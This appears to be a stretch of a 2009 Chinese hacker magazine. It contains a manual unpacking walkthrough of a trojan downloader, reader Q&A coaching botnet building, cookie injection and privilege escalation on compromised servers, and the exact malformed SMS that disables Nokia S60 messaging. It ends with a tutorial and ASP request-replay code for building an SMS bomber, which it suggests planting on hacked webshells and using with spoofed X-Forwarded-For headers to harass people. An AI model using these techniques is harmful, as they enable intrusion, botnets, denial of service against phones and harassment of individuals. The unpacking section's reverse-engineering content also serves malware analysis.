### 2. 附加数据提取查看器 V1.2

这是一个可以在程序中提取附加数据出来的工具。有时候需要处理一下某些特殊作业时，这个工具可能会帮上你的忙，比如木马病毒方面。

### 3. VMProtect 简体中文帮助 + 使用手册

引用部分介绍：“VMProtect 是新一代的软件保护系统，不像市场上其它常见的保护软件，它可以修改软件产品的源代码，转换部分代码为在虚拟机上运行的字节码（bytecode）。您可以将虚拟机想象成为带有不同于 Intel 8086 处理器系统指令的虚拟处理器。例如，虚拟机没有比较两个操作数的指令，也没有条件跳转和无条件跳转指令等等。这样一来，破解者就需要开发一整套的解析引擎来分析和反编译字节码，以现有的解密理论，破解者想要还原出源代码几乎是不可能的。”

相关连接：http://www.unpack.cn/viewthread.php?tid=19539


## 手工脱某下载者 NsPack Private 壳

■风飞沙

从本文你可以学习到：  
如何手脱 NsPack Private 壳

现在正闹经济危机啊，破产的、裁员的、薪水下调的……唯一不见下降的就是木马的增长速度。这不，昨天又被某 MM 叫过去修电脑了，于是便有了此文。

> **实验须知：**
> 随刊光盘中附带本文示例下载者样本，但极具危险性，建议读者们在 VMware 等虚拟机上操作实验。

- 工具准备
- 查壳软件：PEiD v0.94
- 脱壳软件：LordPE
- 指针修复软件：ImportREC_fix
- 调试软件：OllyDbg 1.10 + HideOD 插件

### 分析脱壳

**样本名：spoolsv.exe**

替换系统的正常 spoolsv.exe 文件以达到不写启动项而自启动，该手法高度隐匿，能躲过很多安全软件及高手的追杀。

使用 PEiD v0.94 查壳，提示为“什么都没找到”。改用深度扫描，提示为“AntiU007 V1.0-V2.X -> NsPack Private *”。

用 OllyDbg 载入程序，使用 HideOD 插件隐藏 OllyDbg。入口点停在 1314B227 处，向下看代码，可以在 1314B22B 处看到一个 PEB 标志位检测的反调试代码，如下：

```asm
1314B227 > 9C            pushfd
1314B228   60            pushad
1314B229   2BC0          sub     eax, eax
1314B22B   64:8B40 30    mov     eax, dword ptr fs:[eax+30]
1314B22F   0FB640 02     movzx   eax, byte ptr [eax+2]
1314B233   08C0          or      al, al
1314B235   74 02         je      short 1314B239
1314B237   8720          xchg    dword ptr [eax], esp
1314B239   05 A0E5415F   add     eax, 5F41E5A0
1314B23E   35 A013554C   xor     eax, 4C5513A0
1314B243   FFD0          call    eax
1314B245   40            inc     eax
```

如果发现被调试则不跳转，程序退出，可以使用 OD 插件去除调试标记。

**小知识：**  
如果程序处于调试器中，那么在 PEB 结构中有个 BeingDebugged 标志会被设置。直接读取它就可判断是否在调试器中。实际上 IsDebuggerPresent 就是这么干的。

从 1314B227 一直 F8 单步到 1314B243 处，使用 F7 步入 CALL，EAX 来到 1314F600 处。继续用 F8 单步向下走到 1314F65B 处，使用 F7 步入 call 1314F678。来到 1314F678 处后，向下我们又可以看到检测调试行为的代码了。一直使用 F8 单步直到返回 1314B246 处，然后继续。

使用 F8 直到 1314B284 处，明显是一个变形 CALL，代码如下：

```asm
1314B27E   8985 11FEFFFF    mov     dword ptr [ebp-1EF], eax
1314B284   E8 00000000      call    1314B289    ; 变形call，F7
1314B289   5B               pop     ebx
```

使用 F7 单步走过 1314B284 的变形 CALL 1314B289，然后从 1314B289 开始使用 F8 单步向下走，直到 1314B499 处，代码如下：

```asm
1314B488   83F8 00         cmp     eax, 0
1314B48B   74 0A           je      short 1314B497
1314B48D   61              popad
1314B48E   9D              popfd
1314B48F   B8 01000000     mov     eax, 1
1314B494   C2 0C00         retn    0C
1314B497   61              popad
1314B498   9D              popfd
1314B499   E9 62DBFFFF     jmp     13149000
```

不要被骗了，这不是 OEP，单步跟过去。

需要留心的是，在 1314B474 处的 CALL dword ptr [ebp-183]，调用的是 kernel32.VirtualProtect。这里先卖个关子，读者们先思考吧，最后总结时我再讲原因。代码如下：

```asm
1314B473   50              push    eax    ; 注意下面CALL的地址
1314B474   FF95 7DFEFFFF   call    dword ptr [ebp-183]
; kernel32.VirtualProtect
1314B47A   5A              pop     edx
```

从 1314B49E 处来到 13149000 处，由于 OllyDbg 误认为此处是数据，所以我们要使用右键中的“分析”项中的“从模块中删除分析”进行修正，以便观看代码，如图1所示。

向下查看代码，发现有多处调用 CALL 1314910D，一直向下看，直到 131490E2 处。我们在 131490E7 处下断点，使用 F9 跑起来，程序断在 131490E7，代码如下：

```asm
131490E2   E8 26000000     call    1314910D
131490E7   FFB5 A3144000   push    dword ptr [ebp+4014A3]
131490ED   58              pop     eax
131490EE   8B 74144000     mov     ebx, 401474
131490F3   03DD            add     ebx, ebp
131490F5   66,8BD8         mov     bx, ax
131490F8   83C4 0E         add     esp, 0E
131490FB   2B9D EA144000   sub     ebx, dword ptr [ebp+4014EA]
13149101   81C4 EE030000   add     esp, 3EE
13149107   FFE3            jmp     ebx    ; EBX 所指就是光明之巅
```

从 131490E7 处，使用单步走，直到 13142330，此处就是该木马样本的 OEP 了，代码如下：


图1 修正代码

```asm
13142330    55               push ebp
13142331    8BEC             mov ebp, esp
13142333    81EC 0C050C00    sub esp, 50C
13142339    57               push edi
1314233A    E8 61FFFFFF      call 131422A0
1314233F    85C0             test eax, eax
13142341    74 08            je short 1314234B
13142343    6A 00            push 0
13142345    FF15 C0401413    call dword ptr [131440C0]

kernel32.ExitProcess
1314234B    56               push esi
```

打开 LordPE，使用“完全转存”dump 木马样本镜像。再打开 ImportREC_fix 修复指针，各参数如图2所示。

### 脱壳总结

脱壳的最好方法就是自己单步去跟踪，其实本木马样本还有一个很好的脱壳方法，那就是在上面我让大家留心的 1314B474 处的 `CALL dword ptr [ebp-183]`。在 OllyDbg 使用“bp VirtualProtect”下一个 VirtualProtect 断点，使用 Shift+F9 之后再使用 Alt+F9，大家可以发现程序已经跑到 1314B47A 处了，如图3所示。

接着再在 OllyDbg 中使用“bc VirtualProtect”清除 VirtualProtect 断点，接下来的步骤就和上面一样了。好了，更多的细节就由读者们自己去完成吧，希望本文能给读者们一些提示，学会脱更多的变形壳和未知壳。有兴趣的读者们也可以反汇编分析一下这个下载者的行为哦，里面可是用到了好多猥琐的技术哦。

> 【本文介绍的相关程序以及录像已收录在本期光盘中】

编辑点评：我估计这个壳对新手还是有一定难度的，因为如果你要脱掉这个壳，必须了解几个函数：VirtualProtect、LoadLibraryA 等等。虽然 ESP 定律用处很大，但 ESP 定律不是能脱所有壳的，在合适的地方使用上合适的方法，那么就成功了。


Q：已扫到 IP，也准备溢出……怎么我的肉鸡就是不上线？至于木马免杀问题（加花加壳），我在网上找教程，已经处理得很好，大概对于国内软件只有瑞星能查杀。现在主要想解决的问题就是：我扫描到 IP 都已经准备溢出了，怎么还是没有肉鸡上线？是否存在 FTP 设置上的问题？

我不太确认是否 FTP 地址有问题。FTP 地址我是用的 3322 动态域名，然后将外网 IP 更新到 3322，采用自己的外网地址作为扫描工具中的 FTP 地址，不知道这里是否有错？这个所谓的 FTP 地址，是自己的外网地址还是 3322 上的地址？

A：既然你用 3322 域名作为中转，那么你申请的域名绑定你的外网 IP 后，根本是等同的。使用域名做中转的好处只是在于域名为固定信息，而你的 IP 是随 ADSL 拨号变更的。你的问题应该出在 FTP 上面，首先你本地架设好 FTP 服务器后，实际需要经过测试。你可以自己执行你写好的批处理文件，看命令是否正确执行。其实你可以完全摒弃 FTP 作为上传的模式，建议你使用“浪子全自动抓鸡器”等工具，软件自带了 vbscript 下载功能，这样效率会提高很多。当然建议你不要完全依赖批量溢出，尝试手工溢出后确定是否成功，再执行你的命令。

原文链接：http://www.nohack.cn/bbs/thread-87027-1-1.html

Q：寻找 cookies&inject 工具。在 Google、百度搜了半天也没找到，有的朋友是否可以给个地址？谢谢！

A：你需要的是 cookies 注入工具吧？针对 cookies 注入，建议使用手工模式，相关语法可以参照网络文献。最早的支持 cookies 注入的工具为 TTFCT，采用 PHP 脚本写 cookie 注入器，但是报错效率比较高，更多人习惯用 GreenBrowser 这类的浏览器外挂插件与 cookie 来执行 union 查询，不过这是建立在手工注入的基础上的。当然，还可以用 MiniBrowser 的修改 cookies 功能进行注入，以及穿山甲写的一款不错的利用 cookies 注入 union 查询的工具。一般情况下不可以使用注入中转。比如寂寞的刺猬写的一款注入中转器，下载地址为：http://www.3800hk.com/Soft/zhly/15959.html，需要本地架设服务器或者支持 ASP 的空间，程序上手也很强，建议手工测试是否存在注入后再做生成。

原文链接：http://www.nohack.cn/bbs/thread-86828-1-3.html

# 读编互动

其它的不支持，PHP、ASPX 上传都无法显示该页。采用的是 Serv-U FTP Server v6.0，用 lake 的 ASP 提权不成功，D、H 盘都不能访问，提示路径未找到。C 盘能访问，但根目录不行，跳转了几个目录都不行。比如 C:\Program Files、C:\Documents and Settings、C:\Documents and Settings\All Users、C:\Documents and Settings\Administrator\My Documents 都不能进去。网站目录里的 com.asp 更改的数据库文件又是 Access 的，装有 MySQL 但找不到密码，怎么办啊？不知道能有什么方法可以提权。

A：服务器不支持 PHP 和 ASPX，显然会给我们的提权带来一定阻力。首先可以肯定的一点是 C:\Documents and Settings\Administrator 这个目录在 IIS 权限下是没有访问权限的。当然还是尝试找其他可写目录。建议你想到 C:\Windows\Temp\ 或者 C:\WINDOWS\system32\inetsrv\data\ 这样的常见可写目录，上传 cmd 到该目录看看是否具备可执行权限。一般这些目录是 Everyone 权限，管理员可能会疏忽掉权限设置。

如果 cmd 可以执行命令，那么对于我们的提权无疑是迈进了一大步。首先还是考虑找 Serv-U 的目录，既然 C:\Documents and Settings\All Users 都无法访问，那么从开始菜单的程序中查找快捷方式肯定是被否定了。我们可以利用读取注册表的键值或者使用 VBS 等方法找到 Serv-U 的路径，如果能跳路径就可以下载 ServUDaemon.exe，再利用工具查找管理员修改的密码。因为默认情况下提权不成功，根本原因是管理员修改了默认密码，现在 Serv-U 提权脚本已经有了通杀版本，可以建立具备 System 权限的账号执行命令。当然，如果 Serv-U 提权的路子被否定的话，还是需要结合服务器的其他网站来寻找 root 或者 sa 权限的密码来执行提权。当然，你的目录可能不支持 ASP 扩展，如结合命令确定服务器装有 .NET，那么可以尝试 MS Token Kidnapping 提权漏洞。总之这里只能提供给你一些思路，在真正的入侵中，还是要结合实际来看。

> 原文链接：http://www.nohack.cn/bbs/thread-86495-1-5.html

Q：请问如何检测一个软件是否被带了后门？  
我下载了一个某黑客专用版的记事本，界面很好看，运行它后过不了多久就会中毒，而这之间我没有打开过任何会有隐患的网站，都是些大的网站，如：网易、QQ 什么的。重置新做系统后不运行它就什么事都没有。我用瑞星，也查不出它有病毒，所以来请教大家了。

A：根据你描述的情况，我不能肯定你所认定的“黑客记事本”即为捆绑后门的文件。对于捆绑，一般利用 System Safety Monitor 或者微点主动防御来对程序的行为进行判断，如果释放了相关 EXE 或者 DLL 文件，以及程序对注册表有所改动，都是可以拦截下来的。

而有一部分后门，是释放了类似下载者的病毒，会定时发作，你所提到的可能是这种情况。甚至有一部分是在执行关闭的过程中，链接到带病毒的网站。这些就需要你抓包跟踪了。总之，检测后门的方式一般可以用 W32Dasm、HEX 等编程器加载程序，然后看是否有捆绑数据。但是对于作者自己编写的代码就很难判断了，所以采取主动防御形式的安全软件及进行有效的抓包测试，才能确定病毒根源。我们不排除你中了感染类的病毒，例如熊猫烧香、磁碟机等，这样会感染 EXE 文件，而这些病毒的变种，瑞星检测不到就很正常了。

> 原文链接：http://www.nohack.cn/bbs/thread-85919-1-8.html


等到新的一年真的来临，才感觉 2008 年过得可真快，貌似才从春梦醒来，一眨眼又要冬眠了……过冬待春之际，还是多储备点知识比较好。也许中国的春节一过，说不定网络上又会出现什么马、什么虫、烧什么香的，呵呵。总之，还是期待一切都新、新技术、新知识、新漏洞……

## 建议选摘

《黑客手册》！希望永远看到《黑客手册》美好的每一天！

全体编辑泪奔中：有广大读者的支持，“黑手”会一如既往地和大家携手共进。新的一年了，“黑手”也将迎来 4 周年，各位会拿出怎样的礼物来祝贺呢？一路走来，新旧交替，但不变的仍然是我们的黑客精神，那就是自由、共享……

## 杂志

名字：kuhasu  
职业：其它  
建议：
- 1、增加编程和汇编基础，这样可以有更广泛的受众来源，从而扩大论坛认知名度；
- 2、与最新技术接轨，如 VBA2007 的破解和反编译以及其它新技术的应用。

名字：于云龙  
职业：学生  
建议：因为本刊的主题是网络，所以不可避免地容易出现文章表达抽象、不够清晰，所以希望能多加一些图片并且尽量表达清晰。

## 感言

名字：我堕落了  
职业：学生  
建议：成长的路上有《黑客手册》的陪伴，从最初的菜鸟开始，如今虽算不上老鸟，但也是一只正在茁壮成长的青年小鸟，呵呵！首先，希望《黑客手册》能够继续陪我走下去；再次，希望《黑客手册》能够多多改进，比如在版式、书刊的封面，还有网页、论坛等方面，应该不定期地换换风格！最后，我会一直支持《黑客手册》！

名字：匿名  
职业：学生  
建议：我觉得有些入侵的文章要配上相应的动画教程，这样可以让菜鸟懂得更多。还有，我觉得黑手最好开一个免费班，比如入侵班。然后每期光盘里都有一个免费班的教程，也就是说每期上一到两节课，这样更吸引菜鸟。因为网络上的培训太乱了，大多都是骗钱的。

名字：匿名  
职业：学生 / 网管人员  
建议：发表一些有珍藏价值的教程和工具，希望能把过程稍微讲详细点，让我们菜鸟能看懂，从中学习到更多的知识。也可以弄个速成班，比如讲讲灰鸽子啊，C 语言编程啊这些。

最热情的来编：亲亲们渴望知识的心情偶理解，也很能体会到。知识是永远都学不完的，不知道大家在过去的 08 年使得自己又充实了多少呢？不要慌急哦，牛劲冲天的 09 年说不定会让你乐此不疲哦！

# 非安全黑客手册


## 玩转未曾无源代码更新的漏洞挖掘技巧

## 高手专栏之

## 内网渗透系列

## “无线无战事”被扯了

￥10元

手札篇  
漏洞技术演变史地主教程  
上流入口  
JAVA 接口扫描器 局域网对比更新软件  
WIFI 工具集  
视频篇  
应急  
记述：黑客 DEFCON《History Channel 黑客简史》  
如何破解“礼节”离拆

- 多种方法绕过 Windows 登录验证
- 一个 Oracle 漏点引发的玄机诡局
- 一招彻底干掉 QQ 安全中心
- 诸葛亚的噩梦
- 数据包也疯狂（二）
- coolo 典藏——将 QQ 恶搞进行到底
- 小菜来揭穿骗子的面纱
- VPN 的简单配置
- 3sp 聊安全分析（一）
- Eton 留言击杀术


## 黑客年轻化、集团化，好事？坏事？

某人曾经说过，2009 是属于攻击之年，还没等某某编辑想想，以色列就开始攻击了……从天空到地面，中东这块“肥”得流油的地方又成了吸引全世界人类眼球的焦点。

现实中的战争是残酷的，那就是人为灾难，有些事情本可以避免，但有时候却无可奈何……没有权限啊，呵呵！有时候发觉：人比动物都容易冲动！虽然我们是高级动物，也许这也就是高级动物的特性吧！

虚拟的网络世界中，没有人能主宰一切，在攻击与防范的互相博弈之间，我们来到了 2009 年。有一位老人曾经说过：“计算机要从娃娃抓起”，于是，学习计算机成为许多家长对孩子的要求，而正是这个计算机，为家长们拴住了孩子，使得他们不再好动，安静地坐在电脑前，然后……玩游戏的玩游戏，网恋的网恋……终于，现在居然与“精神病”也有联系了，原来以前许多朋友都已经“精神”过了……

当然，这其中不乏一些很有想法的孩子，他们为了“一些目的”而对技术学习有了兴趣。我们看到，黑客年轻化趋势越来越明显。随着各种方式方法在 Internet 上的大量散播，大家已经能够不需要高超的技术即可实现对既定目标的攻击。当然，最主要的还是被攻击目标对于网络安全的重视度不够。

在这些攻击中，有些攻击完全不是出于炫耀其技术能力，而是为了直接获取巨大的经济利益。何种攻击方式简单、获利大，被采用的可能性就越大。

另外，黑客集团化、正规化的趋势正在加强，已经形成了有组织、有规模、有协调性质的群体，他们挖掘利用系统漏洞，编写针对这些漏洞的恶意代码，通过恶意代码控制僵尸主机，使用僵尸网络对目标发起 DDoS 等攻击，然后完成既定目标，或破坏，或获利。这其中，每一个环节都有不同的“专业”人士负责，使得整个攻击过程隐蔽性极高，造成的危害也更大。

当然，我们也可喜地看到，网络安全研究者的群体在不断扩大，这其中不乏一些以往所谓的“黑客”，他们针对目前网络安全重视度不够的情况，无私地进行友情检测，给予管理员提醒。而一些管理员却觉得这样是种耻辱：我的系统被你自由进出，你还留言在桌面，于是，“安检”变成了“案件”。看来，做安检就得像黑客一样，只不过不放木马、后门，不做破坏，只是抱着打酱油的心态路过而已……

那么黑客年轻化、集团化，是好事还是坏事呢？按我说，一切事皆有两面性，心态决定行为，你做任何事情的最初点都是在中间，往左还是往右，都是极端。当然，人是高级动物，老守在中间的话，会被认为是“精神”的……

## 诺基亚的噩梦

# 新闻时评

圈风 选稿


最近，DZ 又爆出漏洞，黑客黑掉网站后留下信息，有部分站长猜测可能是 Discuz! 程序开发者预留的“后门”遭到了黑客的利用所致。目前事故原因已经查明，官方说与程序本身没有关系，而是盛创想的论坛运维团队忽略了跨站脚本，黑客在服务器端注入了攻击代码，当论坛的管理员用户登录后台时会自动运行该攻击代码，进而对论坛的 SEO 设置进行修改，造成论坛无法正常访问。另外，有网友发现，在网上下载的部分 XP GHO 有可疑文件，并最终确定是后门！大家可以浏览 http://www.nohack.cn/bbs/thread-88349-1-1.html 了解详细消息。果然是过年了，搞破坏的都出来了……

相信对于手机有爱好的小黑们，看到过网上流传的短信“攻击”山寨机的文章，一条精心构造的短信，针对山寨机的芯片，就能让山寨机黑屏、震动、响铃，折磨得山寨机离开父母。

记得那篇文章中提到“品牌手机用户不用担心”，好多人都松了一口气。那么，今天我带来的就是手机大户 NOKIA 的噩梦。

2009 年初，在 YouTube 上面就出现了一段视频，表演者演示了如何简单操作就让 NOKIA 的 S60 系统手机失去接收短信的功能。视频是由德国 Chaos Computer Club 发布，并且 S60 的那个短信漏洞也得到了诺基亚官方杀毒软件合作伙伴 F-Secure 的证实，确实存在。

在中国，使用 NOKIA 智能手机的用户应该是大多数，那么这个漏洞带来的就是 S60 短信功能的毁灭打击，而它的简单操作也会使攻击变得广泛，包括采用 UIQ、S60V2 FP2、S60V2 FP3、S60V3、S60V3 FP1 系统的智能手机都将会被这种方式攻击，而 S60V3 FP2 和 S60 V5 不会被感染。

下面我来介绍方法，介绍前先声明，本技术纯属研究，不可用于攻击其他人手机，否则后果自负。

## 攻击方法

- 发送包含 32 位以上 E-mail 地址的短信即可，如发送 `123456789@123456789.1234567890123`（末尾有空格，引号不用输入）到被攻击手机（这个就是视频中演示的邮件）。
- 注意：发送的恶意短信在接收方的手机上是没有提示的！
- 攻击成功后，被攻击手机将无法收到任何短信息和彩信，使用其他任何手机给中招手机发送短信，将无法送达（发送延缓）。
- S60 v3.1 系统需要发送 11 次，然后被攻击手机接收新的正常短信时，会出现“内存不足”的提示。

由于攻击方法过于简单，所以再次在这里提醒大家，不要用这个方法非法攻击其他手机用户。

由于攻击危害太大，而本人又属于穷人阶级，所以没有用手中仅有的 N73 做实验，无法给大家奉献上中招截图，请大家谅解。如果感觉文字没办法动态地呈现攻击过程，可以去 http://www.sebug.net/exploit/5509/ 上看发布的漏洞攻击公告，上面有攻击方法的视频和文本教程的下载。

该漏洞的危害比较严重，所以提醒所有使用相关系统手机的用户：如果不是 S60 3.1 的手机，长时间没有收到短信或彩信，请叫好友发短信确认手机是否中招；而 S60 3.1 系统的用户，在打开短信信息箱时，如果出现“内存不足，请删除一些短信”的提示时，请注意了，手机可能中招（有时候手机对存储不定时，也可能出现提示）。如果你的手机已经中招了，请不要慌张，因为 F-Secure 的手机安全软件已经处理了这个问题，并推出了 FortiCleanUp tool 专门解决这一问题，安装 FortiCleanUp tool 专用修补工具或者 FortiCleanUp tool 手机安全软件即可。

## 安装说明

- 1. 安装完成后重新启动，打开该工具；
- 2. 选择 Options，在弹出的菜单中选择 Scan（扫描）；
- 3. 如果没有重新启动，会先弹出对话框；
- 4. 建议在日常使用时将该工具隐藏至后台运行。

扫描完毕后，手机就可以正常接收短信息了。但是，每次重启后都要启动工具扫描才可以使用，比较麻烦，如果不喜欢这个方法，也可以去 NOKIA 客服升级系统，也就是俗称的刷机。系统重做后，手机便可以恢复。

## 预防办法

安装来电防火墙类的手机软件，拒绝接受未知号码的短信消息。以下摘自信安易卫士官方论坛上的公告：

> 信安易公司作为专业的手机安全公司，第一时间对该事件进行了分析。经过严格的检测，我们确信安装了信安易卫士的用户是安全的，并且您不需要针对这条短信做任何其他的设置。这条短信会被信安易卫士正确处理，保护用户手机的短信模块不会受到伤害，并且安装信安易卫士会自动修正这条短信的错误，用户不需要担心和恐慌！

已经受到攻击的用户可以通过安装信安易卫士来修复。只要安装了信安易卫士，即使您的手机已经受到“汤姆短信”的攻击，您也可以看到所发来的短信内容，并将手机恢复到正常的状态，保护手机不再受到同类攻击。

所以大家可以安装信安易的手机卫士防范死锁短信的攻击。

最后附上所有已检测会感染的 NOKIA 手机型号：

- S60 3rd Edition, Feature Pack 1 (S60 3.1)
- Nokia E90 Communicator
- Nokia E71
- Nokia E66
- Nokia E51
- Nokia N95 8GB
- Nokia N95
- Nokia N82
- Nokia N81 8GB
- Nokia N81
- Nokia N76
- Nokia 6290
- Nokia 6124 classic
- Nokia 6121 classic
- Nokia 6120 classic
- Nokia 6110 Navigator
- Nokia 5700 XpressMusic
- S60 3rd Edition, initial release (S60 3.0)
- Nokia E70
- Nokia E65
- Nokia E62
- Nokia E61i
- Nokia E61
- Nokia E60
- Nokia E50
- Nokia N93i
- Nokia N93
- Nokia N92
- Nokia N91 8GB
- Nokia N91
- Nokia N80
- Nokia N77
- Nokia N73
- Nokia N71
- Nokia 5500
- Nokia 3250
- S60 2nd Edition, Feature Pack 3 (S60 2.8)
- Nokia N90
- Nokia N72
- Nokia N70
- S60 2nd Edition, Feature Pack 2 (S60 2.6)
- Nokia 6682
- Nokia 6681
- Nokia 6680
- Nokia 6630

（相关软件已经收录本期光盘中）

## 数据包也疯狂（二）

喜欢用新东西，因为总是有惊喜，能够生活在期待中也是很幸福的。每天奔波着，看着太阳从东边升起，西边落下……当忽然有一天，发现自己都在过着同样的生活，心里就只留下空洞洞的感觉了，所以我喜欢把新奇的东西都收在口袋里。当这变成为一种习惯，你会发现，你一直在收集快乐。

### 从本文您可以学到：

- 1. 短信轰炸的原理
- 2. 如何巧妙编写短信轰炸程序

上期我们介绍了 WSE 的使用、HTTP 消息结构以及 URL 编码规范，理论虽然枯燥，但作为一个小黑应该了解。从这期开始，我们就来实战操控数据包，今天给大家带来的就是短信轰炸与刷票相关的学习。

### 原理

其实短信轰炸程序的原理很简单，通过我们上一次对 HTTP 消息的了解，大家应该能想像，在某个短信验证的网站，如果我们填入手机号码，抓到点击的 send 至服务器的包，经过一些修改之后再使用 NC 提交，加上一个 1000 次的循环，那么不就可以瞬间地给某个家伙发 1000 条短信了吗？

是的，其实早期的短信轰炸程序的原理就是这样的：找到不限制次数的短信发送网站 --> 抓包 --> 改包 --> 模拟客户端正常请求发包 --> 短信轰炸产生。

但是现在，我们要想找到一个可以免费、无验证码、无限制发短信等集诸多“优良”条件于一身的网站似乎是不可能了。短信轰炸程序以前很流行，导致短信服务提供商都心惊胆战地做了限制，不是使用验证码就是限制某个号码或 IP 一个时段内只能发送那么几条。我见过最多的也就是点击一次后可以向手机发送 4 条短信，6 个小时之内只能发 3 次，加起来也就是 12 条而已。那么要是在这种情况下，如何来实现短信轰炸呢？

本人愚笨，只能想到一个变相的方法，虽然一个网站限制每个号码一个时段内只能发送 3 条，但是网络上提供基于短信服务的商家如此之多，只要我们花些时间去收集，或者发动群众力量（不知道这世上还找不找得到我这种无聊的人……），把可用的网站整理到数据库，相信不用多久，你写的短信轰炸程序一次能发送的垃圾短信就能上百。

如果只是限制 IP 的话那也好办，你有 WebShell 吗？把写好的 sender.asp 页面放到你入侵的网站上去吧，然后集中地把电话号码传给所有网址，只要你有几十个 WebShell，那么垃圾短信上百应该是一件很简单的事情。如果 IP 验证模块写得不好那就更好办了，伪造 HTTP_X_FORWARDED_FOR，打一枪换一个地方。

# 菜鸟恶补

先说一下 HTTP_X_FORWARDED_FOR 是什么东西吧：

在 ASP 中使用 Request.ServerVariables("REMOTE_ADDR") 来取得客户端的 IP 地址，但如果客户端是使用代理服务器来访问，那取到的就是代理服务器的 IP 地址，而不是真正的客户端 IP 地址。

要想通过代理服务器取得客户端的真实 IP 地址，就要使用 Request.ServerVariables("HTTP_X_FORWARDED_FOR") 来读取。但是，并不是所有的情况都使用 Request.ServerVariables("HTTP_X_FORWARDED_FOR") 都能获得真正的 IP 地址。在使用普通匿名代理服务器、欺骗性代理服务器、隐藏匿名代理服务器时，Request.ServerVariables("HTTP_X_FORWARDED_FOR") 取得的就不是本机的真实 IP，而且欺骗性代理服务器会在随机的 IP 上进行欺骗。

致命的是，HTTP_X_FORWARDED_FOR 可以在消息头中指定，如果服务器获取 IP 时优先使用 HTTP_X_FORWARDED_FOR，那么 IP 验证就约等于没验证，因为我们可以修改报文随便伪造 HTTP_X_FORWARDED_FOR。

正是因为这个原因，有些使用 IP 验证的投票也变得不公平了。倒在 HTTP_X_FORWARDED_FOR 下的登录系统那是数不胜数啊！试想，要验证 IP 就必须进行数据库操作，如果疏忽检查过滤，将出现隐藏的注入漏洞。

版面所限，想了解更多关于获取用户 IP 地址的这三个属性的区别（HTTP_X_FORWARDED_FOR、HTTP_VIA、REMOTE_ADDR），请访问 http://hi.baidu.com/isuae （光盘中也有收录）。

首先 Google 一下，短信验证的网站还真是不少呢，什么彩铃呀，待机图片下载呀，黄色网站会员注册呀……OK，我们依靠上面的思路来实现我们需要的结果。

我写的是网页版程序，因为编写简单而且使用手机就能轰炸。试想，上课的时候看某个家伙巨不爽，拿出手机上网填上他的手机号码，于是他的手机将震上几分钟……

这个程序需要用到 XMLHTTP，我们先来了解一下：

MSXML 中提供了 Microsoft.XMLHTTP 对象，能够完成从数据包到 Request 对象的转换以及发送任务。创建 XMLHTTP 对象的语句为：`Set HTTP = CreateObject(Msxml2.XMLHTTP)`

对象创建后调用 Open 方法对 Request 对象进行初始化，语法格式为：`HTTP.open method, url, async`

- `method`：HTTP 的通信方式，比如 GET 或是 POST；
- `url`：接收数据的服务器的 URL 地址；
- `async`：一个布尔标识，说明请求是否为异步的。如果是异步通信方式（`true`），客户端就不等待服务器的响应；如果是同步方式（`false`），客户端就要等到服务器返回消息后才执行其它操作。

另外，使用 `Http.setRequestHeader name,value` 单独指定某个消息头。用 Open 方法对 Request 对象进行初始化后，调用 Send 方法发送 XML 数据，语句为：`HTTP.send data`

### 程序

更多的内容自己百度一下，现在我们有了功能强大的 XMLHTTP 对象，就以一个实例说明 XMLHTTP 的用途吧。沿用上期在《黑客手册》论坛搜索“脚本”的那个包，信息如下：

```text
POST /bbs/search.php HTTP/1.1
Accept: */*
Referer: http://www.nohack.cn/bbs/search.php
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; QQDownload 1.7; TencentTraveler 4.0; .NET CLR 2.0.50727)
Host: www.nohack.cn
Content-Length: 178
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: AJSTAT_ok_times=34; AJSTAT_ok_pages=4; cdb_sid=54PkbF; cdb_visitedfid=65D23D3; uchome_loginuser=hackjoy; ECS[user_id]=8457892; ECS[username]=hackjoy; ECS[email]=h3389%40163.com; smile=1D1; AJSTAT_ok_times=1; cdb_cookietime=2592000; cdb_auth=4d48TdpY8mNRnVjf2hjhrsFVMQmaxI9VmyvcuLfU52myg0%2Btrabu7ETXWhWV7uq%2FAUfH9BuXL%2BDCnpmk82Q4zHmsUfqmzWg;

formhash=b21137b2&srchtxt=%B0%DC5%B1%BE&srchtype=title&searchsubmit=yes&srchfid=all
```

```text
cdb_onlineusernum=2103
formhash=b21137b2&srchtxt=%BD%C5%B1%BE&srchtype=title&searchsubmit=%CB%D1%CB%F7&t=on&srchuname=&srchfilter=all&srchfrom=0&before=&orderby=lastpost&ascdesc=desc&srchid%5B%5D=all ...
```

将包利用 msxml2.XMLHTTP 重新封装，保存为 4.asp 后直接访问，结果如图 2，大家可以和图 1 比较一下，我们来看代码：

```asp
<%
body="formhash=b21137b2&srchtxt=%BD%C5%B1%BE&srchtype=title&searchsubmit=%CB%D1%CB%F7&t=on&srchuname=&srchfilter=all&srchfrom=0&before=&orderby=lastpost&ascdesc=desc&srchid%5B%5D=all"
Cookie="AJSTAT_ok_times=34; AJSTAT_ok_pages=4; cdb_sid=54PkbF; cdb_visitedfid=65D23D3; uchome_loginuser=hackjoy; ECS[user_id]=8457892; ECS[username]=hackjoy; ECS[email]=h3389%40163.com; smile=1D1; AJSTAT_ok_times=1; cdb_cookietime=2592000; cdb_auth=4d48TdpY8mNRnVjf2hjhrsFVMQmaxI9VmyvcuLfU52myg0%2Btrabu7ETXWhWV7uq%2FAUfH9BuXL%"

User-Agent = "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; QQDownload 1.7; TencentTraveler 4.0; .NET CLR 2.0.50727)"
Dim http
Set Http = Server.CreateObject("msxml2.XMLHTTP")
Http.open "POST", "http://www.nohack.cn/bbs/search.php", false
Http.setRequestHeader "User-Agent", User-Agent
Http.setRequestHeader "Referer", "http://www.nohack.cn/bbs/search.php"
Http.setRequestHeader "Cookie", Cookie
Http.setRequestHeader "Content-Length", 178
Http.setRequestHeader "CONTENT-TYPE", "application/x-www-form-urlencoded"
Http.send(body)
response.write(http.responsetext)
Set Http = Nothing
%>
```

虽然中文出现了乱码，但还是可以看出来服务器处理了我们的请求，返回了我们想要的结果。现在 XMLHTTP 的作用大家应该有了一个感性的认识了吧？

XmlHttp 提供客户端向 HTTP 服务器通信的协议，客户端可以通过 XmlHttp 对象（MSXML2.XMLHTTP.3.0）向 HTTP 服务器发送请求，并使用微软 XML 文档对象模型 Microsoft XML Document Object Model（DOM）处理响应。利用它可以模拟鼠标的点击动作，自动把包发送到服务器，而服务器分辨不出来，它认为我们是想要下载网站上的彩铃，于是就点击了“发送”，那自然是给客户发验证码短信了，我们的目的也就达到了。

